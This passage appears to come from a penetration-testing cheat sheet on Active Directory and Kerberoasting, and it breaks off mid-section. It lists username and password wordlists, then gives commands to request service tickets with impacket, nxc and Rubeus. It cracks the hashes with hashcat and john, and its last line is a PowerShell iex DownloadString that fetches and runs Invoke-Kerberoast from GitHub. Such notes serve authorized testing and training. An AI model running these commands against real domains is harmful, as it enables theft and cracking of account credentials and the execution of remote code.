 Use [https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/xato-net-10-million-passwords.txt)

Having some users, try to build different formats using [https://gist.github.com/superkojiman/11076951#file-namemash-py](https://gist.github.com/superkojiman/11076951#file-namemash-py)

If we know the format (smith, jsmith, john, j.smith, etc.) use the proper file from [https://github.com/insidetrust/statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)

Another resort is to use **cewl** to gather potential user/pass if there is a webserver.
{% endtab %}
{% endtabs %}

## Kerberos Attacks

[#kerberos](../../post-exploitation/windows/ad/authentication.md#kerberos "mention")

### Kerberoasting

{% tabs %}
{% tab title="Exploitation" %}
<pre class="language-bash" data-overflow="wrap" data-full-width="true"><code class="lang-bash"><strong>######## HOW TO MAKE IT VULNERABLE
</strong><strong>It has SPN with weak pwd ----> ADD THE DC DOMAIN TO /etc/hosts
</strong># How to set that SPN on the DC
C:\> setspn -a domain.com/$USER.$HOSTNAME  domain.com\$USER

nxc ldap $iP -u USER -p PASS --kerberoast kerberoast.txt

################# IMPACKET (REMOTELY)
GetUserSPNs.py domain.com/SVC_ACCOUNT:StrongPassword22 -dc-ip 10.10.10.1 -request (-output tgs.hash)
# CRACK THE TICKET
./hashcat -m 13100 -a 0 kerberos_hashes.txt crackstation.txt
./john --wordlist=/opt/wordlists/rockyou.txt --fork=4 --format=krb5tgs ~/kerberos_hashes.txt
# If [-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great), install below
apt install rdate
rdate -n

############# RUBEUS (ON THE WINDOWS VICTIM MACHINE)
.\rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt
Rubeus.exe kerberoast /outfile:hashes.txt
Rubeus.exe kerberoast /creduser:s4vicorp.local\mvazquez /credpassword:Password1

############# INVOKE-KERBEROAST
# Extract all accounts in the SPN
setspn -T medin -Q ​ */*
# SPN is the Service Principal Name, and is the mapping between service and account.
# Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.
# Lets first get the Powershell Invoke-Kerberoast script.
iex​(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') 